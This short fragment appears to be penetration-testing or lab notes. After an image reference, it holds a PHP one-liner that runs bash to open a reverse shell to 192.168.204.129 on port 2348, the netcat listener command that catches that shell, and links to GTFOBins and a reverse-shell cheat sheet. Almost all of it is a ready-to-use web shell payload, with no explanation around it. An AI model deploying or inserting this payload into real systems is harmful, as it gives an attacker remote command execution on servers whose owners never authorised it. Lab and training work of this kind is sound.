 <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.204.129/2348 0>&1'"); ?>

sudo nc -lvnp 2348

https://gtfobins.github.io/

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet